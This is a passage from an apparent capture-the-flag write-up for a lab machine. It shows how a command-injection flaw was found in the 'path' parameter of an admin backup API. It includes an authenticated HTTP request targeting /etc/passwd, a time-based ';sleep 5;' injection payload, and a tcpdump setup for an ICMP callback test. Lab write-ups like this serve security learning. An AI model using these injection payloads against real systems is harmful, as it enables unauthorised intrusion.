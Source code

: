 ![alt text](/assets/images/17-12-2024/mentor/resp_2.png "resp 2")

This essentially tells us to use a variable in the body called `path`. Changing the request to:
```http
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
Content-Type: application/json
Content-Length: 29

{
  "path": "/etc/passwd"
}
```
We are provided with a `200 OK`:
```json
{"INFO":"Done!"}
```

Fuzzing `Path` it was identified it is vulnerable to command injection. The following request takes around 5 seconds to return:
```json
{
    "path": ";sleep 5;"
}
```
Response Time:

![alt text](/assets/images/17-12-2024/mentor/sleep.png "sleep")

Changing the sleep time also affects the response time, the next step is to test `ICMP`:
On my host:

```
sudo tcpdump -i tun0 icmp
```
